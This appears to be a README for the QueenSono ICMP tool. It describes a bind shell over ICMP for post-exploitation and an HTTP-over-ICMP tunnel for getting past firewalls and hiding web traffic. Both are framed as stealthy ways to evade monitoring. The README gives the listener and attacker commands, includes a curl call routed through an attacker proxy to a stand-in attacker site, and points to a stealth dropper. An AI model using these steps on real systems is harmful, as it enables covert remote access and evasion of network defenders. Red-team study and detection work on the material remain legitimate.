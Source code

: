 # Hack

Some fun things using `QueenSono`

* Bind shell
* Http over ICMP tunneling
  * For a much more sophisticated ICMP tunneling solution see [icmptunnel](https://github.com/DhavalKapil/icmptunnel)

## Bind Shell
<h5 align="center">In <code>QueenSono/hack/bindshell</code></h5>

<p align="center"><i> It is a "bind shell" through ICMP so it is quite ordinary if it takes time or if all commands are not well treated</i></p>

### Use case
***In Post exploitation phase:*** Sometimes, and for the post exploitation phase it is more suited, you need a bind shell. if ICMP is less monitored than other protocol (eg TCP), having a bind shell trough `QueenSono` is more stealthy.

#### How to do it?

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-bindshell.gif)
On both machines you need to have `qssender`and `qsreceiver`

*> On the target machine:* Launch your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the attacker machine:* Bind to the target shell
```
./bindshell.sh <ip_target> <ip_listening_for_icmp>
```

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [curlNExec](https://github.com/ariary/curlNexec) repo. Should I adapt it to use ICMP ? 🤔*

## HTTP over ICMP tunneling


<h5 align="center">In <code>QueenSono/hack/tunneling</code></h5>

<p align="center"><i> Access internet by tunneling HTTP request with ICMP</i></p>

### Use case
* Access internet but firewall rules block http traffic but allow icmp 
* If you want to hide your http tracks 

#### How to do it?
```
need cap_net_raw cap         need internet access

        ┌───────────┐         ┌───────────────┐           ┌────────────┐
        │           │    1    │               │    2      │            │
        │  qscurl   └─────────►    qsproxy    └───────────►World  wide │
        │           ◄─────────┐               ◄───────────┐    web     │
        └───────────┘    4    └───────────────┘     3     │            │
                                                          └────────────┘
```

*> On the attacker machine:* Launch the proxy
```
./qsproxy.sh <ip_listening>
```

*> On the target machine:* Order a curl request to be performed by attacker machine
```
# before modify qscurl.sh with according LISTEN and REMOTE addresses
./qscurl.sh http://myawesomeattacersite.com -H \"toto:titi\"
```

